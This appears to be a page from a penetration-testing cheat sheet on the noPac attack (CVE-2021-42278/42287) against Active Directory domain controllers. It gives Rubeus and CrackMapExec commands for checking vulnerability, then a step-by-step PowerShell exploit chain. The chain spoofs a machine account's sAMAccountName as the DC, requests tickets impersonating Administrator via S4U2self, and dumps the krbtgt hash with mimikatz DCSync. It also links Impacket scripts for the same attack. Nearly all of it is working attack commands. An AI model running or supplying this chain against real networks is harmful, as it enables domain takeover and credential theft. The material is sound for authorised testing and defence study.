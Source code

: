 
#### Check

{% tabs %}
{% tab title="Windows" %}
Look at the size of the returned TGT. If the DC is not vulnerable, the TGT will contain the PAC part and be obviously larger:

```
PS > .\Rubeus.exe asktgt /domain:megacorp.local /dc:DC01.megacorp.local /user:snovvcrash /password:Passw0rd! /nopac /nowrap
```
{% endtab %}
{% tab title="Linux" %}
```
$ cme smb 192.168.1.11 -u snovvcrash -p 'Passw0rd!' -M nopac
```
{% endtab %}
{% endtabs %}


#### Exploit

{% tabs %}
{% tab title="Windows" %}
```powershell
# create a new machine account
PM > New-MachineAccount -Domain megacorp.local -DomainController DC01.megacorp.local -MachineAccount FakeMachine -Password $(ConvertTo-SecureString 'Passw0rd!' -AsPlainText -Force) -Verbose
# clear SPNs
PV3 > Set-DomainObject "CN=FakeMachine,CN=Computers,DC=megacorp,DC=local" -Clear servicePrincipalName -Verbose
# change fake machine's sAMAccountName
PM > Set-MachineAccountAttribute -MachineAccount FakeMachine -Value DC01 -Attribute sAMAccountName -Verbose
# request TGT
PS > .\Rubeus.exe asktgt /domain:megacorp.local /dc:DC01.megacorp.local /user:DC01 /password:Passw0rd! /nowrap
# change fake machine's sAMAccountName once again
PM > Set-MachineAccountAttribute -MachineAccount FakeMachine -Value FakeMachine -Attribute sAMAccountName -Verbose
# request S4U2self
PS > .\Rubeus.exe s4u /domain:megacorp.local /dc:DC01.megacorp.local /altservice:LDAP/DC01.megacorp.local /impersonateuser:Administrator /self /ptt /ticket:<BASE64_TGT>
# fire DCSync
PS > .\mimikatz.exe "lsadump::dcsync /domain:megacorp.local /dc:DC01.megacorp.local /user:MEGACORP\krbtgt" "exit"
```
{% endtab %}
{% tab title="Linux" %}
Manually with Impacket:

- [https://gist.github.com/snovvcrash/3bf1a771ea6b376d374facffa9e43383](https://gist.github.com/snovvcrash/3bf1a771ea6b376d374facffa9e43383)
- [https://github.com/ShutdownRepo/impacket/blob/CVE-2021-42278/examples/renameMachine.py](https://github.com/ShutdownRepo/impacket/blob/CVE-2021-42278/examples/renameMachine.py)
- [https://github.com/ShutdownRepo/impacket/blob/getST/examples/getST.py](https://github.com/ShutdownRepo/impacket/blob/getST/examples/getST.py)
